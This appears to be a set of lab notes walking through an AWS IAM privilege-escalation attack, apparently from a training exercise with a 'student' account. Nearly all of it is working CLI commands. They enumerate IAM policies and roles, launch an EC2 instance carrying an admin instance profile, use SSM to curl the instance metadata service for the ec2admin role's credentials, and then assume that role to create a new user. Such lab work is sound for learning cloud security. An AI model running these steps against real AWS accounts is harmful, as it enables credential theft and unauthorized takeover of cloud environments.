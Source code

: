 ** Elevating user privileges based on ConfigureEC2Role policy **

Setting AWS Credentials  
`aws configure`

Listing policies attached to user
`aws iam list-attached-user-policies --user-name student`
![[Pasted image 20210503152625.png]]
Trying to create a new user - Failed
`aws iam create-user --user-name Bob`

Listing user policy details
`aws iam list-user-policies --user-name student`
Viewing details of ConfigureEC2Role policiy
`aws iam get-user-policy --user-name student --policy-name ConfigureEC2Role`
![[Pasted image 20210503153156.png]]

Listing roles
`aws list-roles`
We search ed2admin role
![[Pasted image 20210503153355.png]]
Listing policy details attached to role
`aws iam list-role-policies --role-name ec2admin`
![[Pasted image 20210503153513.png]]
`aws iam get-role-policy --role-name ec2admin --policy-name terraform-2021021213362984700000001`
![[Pasted image 20210503153634.png]]

Finding AMI ID
`aws ec2 describe-images --owners amazon --filter 'Name=name,Values=amzn-ami-hvm-*-x86_64-gp2' 'Name=state,Values=available' --output json | jq -r '.Images | sort_by(.CreationDate) | last(.[]).ImageId'`
Finding Subnet ID
`aws ec2 describe-subnets`
![[Pasted image 20210503154042.png]]
Listing security groups
`aws ec2 describe-security-groups`
![[Pasted image 20210503154207.png]]
Listing instance profiles
`aws iam list-instance-profiles`
![[Pasted image 20210503154316.png]]

Starting an ec2 instance
`aws ec2 run-instances --subnet-id subnet-0dfbb465103aa1c2d --image-id ami-0d08a21fc010da680 --iam-instance-profile Name=ec2_admin --instance-type t2.micro --security-group-ids "sg-0106a4a8e91b3a682"`
![[Pasted image 20210503154652.png]]

Executing commands on EC2 using SSM
`aws ssm send-command --document-name "AWS-RunShellScript" --parameters 'commands=["curl http://169.254.169.254/latest/meta-data/iam/security-credentials/ec2admin/"]' --targets "Key=instanceids,Values=i-0da83d9b4322af4fa" --coment "Retrieving Token"`
![[Pasted image 20210503155054.png]]
Getting command's output
`aws ssm get-command-invocation --command-id "0765bff4-4966-446f-4e0cdfee565f" --instance-id "i-0da83d9b4322af4fa"`
![[Pasted image 20210503155325.png]]

Assuming ec2admin role
Exporting environment variables
![[Pasted image 20210503155510.png]]
`aws sts get-caller-identity`
![[Pasted image 20210503155600.png]]

Confirming privileged access - Success
`aws iam create-user --user-name Bob`
![[Pasted image 20210503155702.png]]